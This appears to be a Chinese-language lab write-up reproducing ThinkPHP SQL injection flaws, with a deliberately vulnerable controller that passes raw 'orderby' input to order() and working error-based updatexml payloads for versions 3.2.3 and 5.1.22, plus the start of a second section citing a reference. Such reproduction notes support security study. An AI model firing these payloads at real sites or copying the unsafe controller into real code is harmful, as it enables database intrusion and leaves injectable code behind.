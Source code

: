   **漏洞分析参考：**  
https://nosec.org/home/detail/1821.html

  **漏洞复现（内网环境）**  
**在 / application/index/controller / 文件夹下建立 Index.php 文件，内容如下：**

```
<?php

namespace app\index\controller;

class Index{

    public function index()    {

           $data=array();

         $data['username']=array('eq','admin');

        $order=input('get.orderby/a');

        $m=db('user')->where($data)->order($order)->find();

        Sdump($m);

   }

}

?>
```

**访问 192.168.10.53，选择对应版本**

  **Poc/exp:**  
**3.2.3**

```
?order[updatexml(1,concat(0x3a,user()),1)]=1            
```

**5.1.22** 

```
?orderby[id`|updatexml(1,concat(0x3a,user()),1)%23]=1
```

[![](http://zone.secevery.com/uploads/article/20191220/9fd040e70625857a925760814c5cfd88.png)](http://zone.secevery.com/uploads/article/20191220/9fd040e70625857a925760814c5cfd88.png)

**二，Thinkphp3.2.3 find/select/delete 注入**  
**影响版本**  
Thinkphp<=3.2.3

**漏洞分析参考：**  
https://www.anquanke.com/post/id/157817
